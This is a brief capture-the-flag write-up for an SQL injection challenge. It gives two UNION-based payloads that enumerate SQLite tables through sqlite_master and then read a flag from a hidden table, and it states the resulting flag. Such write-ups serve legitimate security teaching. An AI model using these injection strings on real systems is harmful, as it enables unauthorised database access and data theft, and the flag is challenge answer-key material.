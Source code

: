 Challenge author: t0m7r00z

This challenge introduces SQL Injection.

First: Extract tables names

```'union select 1,name,sql from sqlite_master--```

![](../Rev/images/vac.png)

There's a very interesting table called **s3cret_fl4g** that contains a **flag** column.

Now that we know our target, all that is left is to view it!

```'union select 1,2,flag from s3cret_fl4g--```

*inf{an@th3r_v4Cc1n3_ag41n57_Par@lyS1s}*
